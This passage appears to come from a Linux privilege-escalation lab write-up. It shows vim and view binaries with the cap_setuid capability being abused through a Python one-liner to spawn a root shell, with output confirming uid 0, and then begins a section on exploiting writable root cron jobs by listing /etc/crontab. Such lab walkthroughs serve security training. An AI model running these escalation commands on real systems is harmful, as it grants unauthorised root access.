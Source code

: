 Both `vim`and `view`have the capability `cap_setuid+ep`, which means that when you run the binary, it can change its UID. I’ll test Vim and view capabilities. Change to the binary location directory and run the exploit.

[Vim Capability abuse](https://gtfobins.github.io/gtfobins/vim/#capabilities): First, we need to identify the Python version running on the target machine. *Prepend `:py3` for Python 3.*

```bash
$ python3 --version
Python 3.8.5
$ ./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Erase is control-H (^H).
# id
uid=0(root) gid=1001(karen) groups=1001(karen)

```

The command used Vim to run Python code to escalate privileges with setuid(0) -> root, then launch a root shell with `os.execl`

[view Capability abuse](https://gtfobins.github.io/gtfobins/view/#capabilities)

```bash
$ ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Erase is control-H (^H).
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
#
```

## Privilege Escalation: Cron Jobs

Cron is a time-based job scheduler in Unix/Linux. It executes scripts or commands automatically at scheduled intervals (every minute, hourly, daily, etc.). We can exploit badly configured cron jobs to get root privileges. Look for:

- Scripts or binaries in cron jobs owned by the root user are writable.
- If the cron file is writable.
- If cron.d directory is writable.

```bash
$ cat /etc/crontab
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py

```
